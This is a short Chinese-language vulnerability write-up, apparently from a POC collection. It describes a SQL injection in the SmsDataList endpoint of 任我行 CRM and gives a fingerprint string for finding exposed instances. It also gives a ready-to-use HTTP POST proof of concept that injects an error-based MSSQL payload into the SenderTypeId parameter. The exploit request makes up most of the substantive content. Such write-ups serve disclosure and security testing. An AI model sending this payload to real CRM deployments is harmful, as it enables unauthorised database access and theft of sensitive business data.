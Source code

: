 # 任我行 CRM SmsDataList SQL注入漏洞

# 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

*任我行CRM*系统是客户关系管理,集OA自动化办公、OM目标管理、KM知识管理、HR人力资源为一体集成的企业管理软件。

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息。

## 漏洞影响

任我行 CRM

## 网络测绘

"欢迎使用任我行CRM"

## 漏洞复现

登陆页面

![image-20230828150050416](images/image-20230828150050416.png)

验证POC

```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![image-20230828150106754](images/image-20230828150106754.png)

